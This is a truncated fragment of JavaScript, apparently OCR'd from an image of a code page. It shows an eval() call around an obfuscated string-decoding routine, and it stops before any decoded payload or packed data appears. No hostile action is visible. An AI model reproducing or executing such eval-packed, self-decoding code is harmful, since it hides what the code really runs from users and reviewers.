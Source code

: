 eval((function(){var x=[87,86,75,71,70,79,94,81,65,90,82,66,89,60,88,72,80,76,85,74];var a=[];for(var i=0;i<x.length;i++)a[x[i]]=i+1;var s=[];for(var g=0;g<arguments.length;g++){var j=arguments[g].split('~');for(var f=j.length-1;f>=0;f--){var c=null;var h=j[f];var w=null;var l=0;var r=h.length;var o;for(var
y=0;y<r;y++){var b=h.charCodeAt(y);var m=a[b];if(m){c=(m-1)*94+h.charCodeAt(y+1)-32;o=y;y++;}else if(b==96){c=94*(x.length-32+h.charCodeAt(y+1))+h.charCodeAt(y+2)-32;o=y;y+=2;}else{continue;}if(w==null)w=[];if(o>l)w.push(h.substring(l,o));w.push(j[c+1]);l=y+1;}if(w!=null){if(l<r)w.push(h.substring(l));j[f]=w.join('');}}s.push(j[0]);}var q=s.join('');var d='abcdefghijklmnopqrstuvwxyz';var z=[39,96,10,126,42,92].concat(x);var t=String.fromCharCode(64);for(var i=0;i